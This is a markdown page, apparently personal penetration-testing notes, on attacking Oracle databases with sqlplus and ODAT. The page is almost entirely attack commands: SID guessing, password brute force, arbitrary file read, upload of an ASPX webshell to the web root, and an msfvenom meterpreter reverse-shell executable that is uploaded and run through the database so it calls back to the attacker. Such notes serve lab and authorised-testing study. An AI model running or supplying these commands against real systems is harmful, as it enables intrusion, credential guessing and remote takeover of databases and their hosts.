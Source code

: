 ```yaml
---
title: "Oracle Database"
date: 2025-7-25
tags: ["OracleDB", "File System Permissions Vulnerabilities", "Database Dumping", "Brute Force", "Enumeration", "Privilege Escalation In Databases", "Database", "Sqlplus", "Odat", "Reverse Shell", "RCE"]
---
```


### Tools

{{< tab set1 tab1 >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
sudo apt install oracle-instantclient-sqlplus
```

```console
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Check
sqlplus -V
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Install
sudo apt install odat
```

```console
# Check
odat --version
```

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

---

### Enum

```console
# SID enum (You only need one)
odat sidguesser -s <TARGET>
```

```console
# User/Password brute force
odat passwordguesser -s <TARGET> -d <SID> --accounts-file accounts.txt
```

```console
# Run all checks with creds as sysdba
odat all -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba
```

### General

```console
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Connect
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>'
```

```console
# Connect as sysdba (sudo)
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>' as sysdba
```

```console
# Check privilege
select * from user_role_privs;
```

---

### Abuse #1: Arbitrary Read

```console
odat ctxsys -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

---

### Abuse #2: Upload File to RCE

```console
odat dbmsadvisor -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

---

### Abuse #3: Execute Binary to RCE

```console
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

```console
# Upload
odat utlfile -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\ProgramData revshell.exe revshell.exe
```

```console
# Execute
odat externaltable -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --exec C:\\ProgramData revshell.exe
```

